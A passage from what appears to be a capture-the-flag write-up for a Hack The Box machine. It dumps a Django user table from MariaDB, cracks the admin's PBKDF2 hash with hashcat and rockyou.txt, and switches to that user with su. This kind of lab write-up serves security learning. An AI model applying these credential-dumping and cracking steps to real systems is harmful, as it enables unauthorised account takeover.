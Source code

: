 ```
| django_migrations          |
| django_session             |
+----------------------------+
10 rows in set (0.000 sec)

```

`auth_user` is where the hashes are stored:

```

MariaDB [dev]> select * from auth_user;
+----+------------------------------------------------------------------------------------------+------------+--------------+----------+------------+-----------+-----------------+----------+-----------+----------------------------+
| id | password                                                                                 | last_login | is_superuser | username | first_name | last_name | email           | is_staff | is_active | date_joined                |
+----+------------------------------------------------------------------------------------------+------------+--------------+----------+------------+-----------+-----------------+----------+-----------+----------------------------+
|  1 | pbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8dYWMGYlz4dSArozTY7wcZCS7DV6l5dpuXM4A= | NULL       |            1 | kyle     |            |           | kyle@writer.htb |        1 |         1 | 2021-05-19 12:41:37.168368 |
+----+------------------------------------------------------------------------------------------+------------+--------------+----------+------------+-----------+-----------------+----------+-----------+----------------------------+

```

### Cracking

I’ll feed that hash into `hashcat`, and after a few minutes with `rockyou.txt`, it finds the password:

```

$ hashcat -m 10000 django.hash --force /usr/share/wordlists/rockyou.txt 
...[snip]...
pbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8dYWMGYlz4dSArozTY7wcZCS7DV6l5dpuXM4A=:marcoantonio
...[snip]...

```

### su / SSH

That password works for kyle, either with `su`:

```

www-data@writer:/var/www/writer2_project$ su kyle
Password: 
kyle@writer:/var/www/writer2_project$

```
